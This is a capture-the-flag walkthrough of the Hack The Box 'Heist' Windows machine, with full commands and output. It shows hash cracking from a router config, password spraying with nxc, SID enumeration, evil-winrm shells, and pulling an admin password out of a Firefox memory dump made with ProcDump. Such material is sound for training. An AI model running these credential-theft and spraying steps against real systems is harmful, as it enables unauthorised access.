





# Heist - Easy

Target IP: **10.129.96.157**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.96.157 -v```

Output shows a few ports open.

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Anonymous log in isn't possible on the SMB server.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ smbclient -N -L //10.129.96.157
session setup failed: NT_STATUS_ACCESS_DENIED
```

Let's navigate to the website.

We're presented with a simple log in page.



```24x7 Support``` doesn't seem to be a real application.

We can log in as guest. This leads us to a support thread. ```Hazard``` requests for an account on the Windows server to access files.



There is an attachment on the ticket sent by ```Hazard```, which is a configuration file for the router. This contains two password hashes.



The hash format is PeopleSoft.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ hashcat hash
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 2.1 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: AMD EPYC 7543 32-Core Processor, 3921/7907 MB (988 MB allocatable), 4MCU

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
====================================================================================================================================================
* Device #2: cpu-haswell-AMD EPYC 7543 32-Core Processor, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

133 | PeopleSoft | Enterprise Application Software (EAS)
```

However, this doesn't crack, and the second hash isn't in the same format.

Looking up hash formats for Cisco routers, we find out more about these.

```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```

The first hash is MD5, and the next two are type 7, which is a weak algorithm based on XOR.

Hashcat cracks the MD5 hash.

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent              
```

We can use an online tool for the type 7 hashes.

The first type 7 cracks to this.



The second cracks to this.



Let's save all the passwords to a file, and also the users: ```hazard```, ```admin```, and ```rout3r```.

We find a pair of credentials!

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ nxc smb 10.129.96.157 -u usernames -p passwords
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:None)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```

Let's log in to SMB.

There doesn't seem to be actual shares available.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ smbclient -L //10.129.96.157 -U "hazard%stealth1agent"

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We can try enumerating RPC.

```rpcclient``` works with the same credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ rpcclient -U 'hazard%stealth1agent' 10.129.96.157
rpcclient $> 
```

```rpcclient``` isn't very effective in enumerating information about users, because we need the SID associated with the accounts. We can use ```lookupsid.py```.

We get a lot more usernames.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ lookupsid.py hazard:stealth1agent@10.129.96.157
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.129.96.157
[*] StringBinding ncacn_np:10.129.96.157[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Let's put all these into our username list, and then test if the passwords we have work.

We find another working password, this time for ```Chase```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ nxc smb 10.129.96.157 -u user -p passwords --continue-on-success
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:None)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Guest:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\DefaultAccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\WDAGUtilityAccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\None:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Guest:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\DefaultAccount:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\WDAGUtilityAccount:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\None:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Guest:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\DefaultAccount:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\WDAGUtilityAccount:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\None:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Jason:$uperP@ssword STATUS_LOGON_FAILURE 
```

This works getting us a shell as ```Chase``` with ```evil-winrm```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ evil-winrm -i 10.129.96.157 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
```

We can proceed to get the user flag from here.

## Root Flag

There is an interesting ```todo.txt``` file in ```Chase```'s Desktop.

I wonder where the issues list is.

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> cat todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

In the webroot, the source code of ```login.php``` is available. Also, there is a hardcoded password for the admin user.

```
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
	if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
		$_SESSION['admin'] = "valid";
		header('Location: issues.php');
	}
	else
		header('Location: errorpage.php');
```

However, this doesn't crack.

I'm thinking that the "issues" that are mentioned are the support tickets on the website. There are multiple processes associated with Firefox running.

```
*Evil-WinRM* PS C:\inetpub\wwwroot> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    458      18     2232       5372               364   0 csrss
    290      13     2220       5088               480   1 csrss
    357      15     3476      14424              4284   1 ctfmon
    255      14     3980      13376              3812   0 dllhost
    166       9     1880       9636       0.03   6772   1 dllhost
    617      32    30280      58300               964   1 dwm
   1493      58    23880      79124              5168   1 explorer
    355      25    16392      38900       0.14   5924   1 firefox
   1074      69   142088     219552       5.05   6452   1 firefox
    347      19    10216      38672       0.13   6560   1 firefox
    401      33    31116      88532       0.67   6684   1 firefox
    378      28    21804      58428       0.33   6976   1 firefox
```

We could try retrieving passwords from the Firefox processes with ```procdump```.

```
*Evil-WinRM* PS C:\Users\Chase\Documents> C:\Windows\Temp\ProcDump.exe 5924 -ma


ProcDump v12.02 - Sysinternals process dump utility

Copyright (C) 2009-2026 Mark Russinovich and Andrew Richards

Sysinternals - www.sysinternals.com


[23:16:16]Dump 1 info: Available space: 3729666048

[23:16:16]Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_261025_231616.dmp

[23:16:16]Dump 1 writing: Estimated dump file size is 298 MB.

[23:16:17]Dump 1 complete: 298 MB written in 0.4 seconds

[23:16:17]Dump count reached.
```

Let's transfer the dump file.

```
*Evil-WinRM* PS C:\Users\Chase\Documents> download "C:\Users\Chase\Documents\firefox.exe_261025_231616.dmp" "/home/htb-mp-3199654/firefox_full.dmp"
                                        
Info: Downloading C:\Users\Chase\Documents\firefox.exe_261025_231616.dmp to /home/htb-mp-3199654/firefox_full.dmp
                                        
Info: Download successful!
```

Looking inside the file, we see a cleartext password for ```admin```. This must be the credentials used to check the issues on the platform.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ strings firefox_full.dmp | grep password | less
...
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
...
```

Let's see if this works to log in.

We're in!

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fltkcegpxe]─[~]
└──╼ [★]$ evil-winrm -i 10.129.96.157 -u administrator -p '4dD!5}x/re8]FBuZ'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
